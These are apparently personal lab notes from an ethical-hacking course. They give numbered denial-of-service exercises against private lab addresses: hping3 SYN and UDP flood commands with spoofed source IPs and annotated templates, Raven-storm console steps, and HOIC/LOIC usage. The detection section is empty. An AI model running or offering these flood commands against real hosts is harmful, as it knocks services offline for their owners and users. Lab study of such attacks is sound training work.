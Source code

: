 ## 95. Perform a DoS Attack on the target host using hping3
---
1. hping3 -S 10.10.1.11 -a 10.10.1.19 -p 22 --flood
	hping3 -S {target_ip} -a {spoofed IP} -p {target port}  -flood

2. hping3 -d 65538 -S -p 21 --flood 10.10.1.11
	hping3 -d {packet size} -S -p {target port} --flood {target IP}

**UDP application layer flood attack on the Windows Server 2019 using NetBIOS port 139.**
3. hping3 -2 -p 139 --flood 10.10.1.19
	hping3 -2{specifies UDP mode} -p {target port} --flood {target IP}

## 96. Perform a DoS Attack using Raven-storm
---

**Linux**
1. sudo su
2. sudo rst
3. -l4
4. ip 10.10.1.19
5. port 80
6. threads 20000
7. run
8. y

## 97. Perform a DDoS Attack using HOIC
---
It is design to attack 256 target simultaneously.
1. open High Orbit Ion Cannon(HOIC). folder in win
2. open hoic.exe
3. click '+' button
4. ![[Pasted image 20241026011910.png]]

## 98. Perform a DDoS Attack using LOIC
---
1. open LOIC.exe
2. ![[Pasted image 20241026012209.png]]
3. ![[Pasted image 20241026012224.png]]


## 99. Detect  and  Protect Against DDoS Attacks using Anti DDoS Guardian




## 100. Gather Information using Online Footprinting Tools
---
